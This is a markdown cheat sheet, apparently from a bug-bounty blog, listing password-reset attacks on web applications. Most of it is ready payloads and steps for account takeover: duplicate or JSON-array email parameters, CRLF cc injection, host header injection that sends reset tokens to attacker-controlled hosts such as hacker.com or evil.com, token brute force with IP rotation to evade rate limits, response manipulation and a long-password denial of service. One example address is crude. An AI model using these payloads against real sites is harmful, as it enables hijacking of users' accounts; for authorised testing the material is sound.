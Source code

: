```yaml
---
title: Forgot Password Cheat Sheet
description: webvun,hacking
author: samidunimsara
date: 2023-09-18 11:33:00 +0800
categories: [hackingweb, web]
tags: [web]

---
```


# Password Reset Functionalities

- 1.) **Include your mail as a second parameter (you 
      might receive the reset link):**
    
    ```bash
    POST /reset
    email=victim@tld.xyz&email=hacker@tld.xyz
    ```
    
- 2) Brute force reset token if it is numeric. You can use IP Rotator on Burpsuite
    
    ```bash
    to bypass rate limit in case it's IP based :
    
    POST /reset
    email=victim@tld.xyz&code=$BRUTE$
    ```
    
- 3) Try to use your reset token on target's account
    
    ```bash
    POST /reset
    email=victim@tld.xyz&code=$YOUR-TOKEN$
    ```
    
- 4) Host header injection; change website.com to hacker.com (victim might receive the reset link with)
    
    ```bash
    POST /reset
    Host: hacker.com[ … … . ].
    ```
    
- Try to figure out how the tokens are generated. Exemples can be
    
    ```bash
    -Generated based on TimeStamp-
    -Generated based on the ID of the user
    -Generated based on the email of the user
    ```
    
- ) Try
    
    ```bash
    .user@email.com&bcc:attacker@email.com 
    
    .user@email.com,attacker@email.com.
    
    .victimspussy@ymail.com:attackersdick@ymail.com
    
    .{"email":["victim@gmail.com","attacker@gmail.com"]}
    
    .email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
    
    {"email":["victim12345@gmail.com","attacker12345@gmail.com"    ]}
    
    POST /reset
    email=victim@mail.com%0a%0dcc:hacker@mail.com
    
    no gmail.com No domain:email=victim   
    
    {"email": ["victim@xyz.tld","hacker@xyz.tld"]}
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    
    ```
    
- When requesting a new password reset link try to inject some html tags in the host header,
    
    ```bash
    Example:-Host: http://redacted.com?><a href=http://evil.com
    ```
    
- Also look into response body, sometimes passwd reset token leaks there.
- In JSON array
    
    ```bash
    {"email":["victim@mail.tld","atracker@mail.tld"]}
    ```
    
- reset password so that you get a reset OTP in your email
    - Don't use it.
    - Sign into your account and change your email address.
    - Once it's changed, try using the old OTP.
    - if the link still works then users can't rescue their account if their email is compromised.
- x-forwarded-host: {{7*7}} and X-Forwarded-For: yu will receive 49 in yur email if the application was infected ;)
- ATO
    
    
    ```bash
    1.Go to reset password
    2.Enter your Email and intercept request
    3.change Host+Referrer+originWith your server eg:burp collob..*
    4.Victim will receive  yourserver/token=$
    5.When He Click on Link you will got token
    
    ```
    
- Another ATO
    
    ```bash
    1.Generated reset password link,
    2.Gave password, and intercepted the request.
    3.Change my email with victim email and victim pass got changed
    ```
    
- Leakage of the password reset token in the referer header:
    
    ```bash
     1.In the password reset page after:
     2.Click on any social media handle or any 3rd party sites link & intercept the request
     3.If the reset token is leaked in refer header, Just report it! H1 report 751581 ``
    ```
    
    [https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md)
    
- Password Reset Token Leakage
    
    ```bash
    
    Steps:    
    01.Send a password reset request 
    02.copy your reset page link from mail  and paste in another tab and make burp intercept on.
    03.after clinck link open facebook twiterr .random web site  
    https://www.youtube.com/watch?v=X3YxJFiTa6c&t=2s
    04. search reset link in puep historry
    05.if you find similiar token that is in reset link with other domain its vunarable
    ```
    
    - It was just simple one by response manipulation. Change the body from "false" to "true
- Host Header 💉
    
    ```bash
    1.Go to password reset funtion.
    2.Enter email and intercept the request and change like this    Host:http://target.com    Host:burp collbr    Host: http://attacker.com/www.target.com    Host: http://attacker.com&www.target.com
    4.if you found http://attacker.com in reset link.. Report it
    ```
    
- Password reset link not expiring
    - After reset password using reset link try another time using same link
- Dos via enter long password
    
    ```bash
    1.enter long password 1000 caracter if response 500 its dos
    ```
  
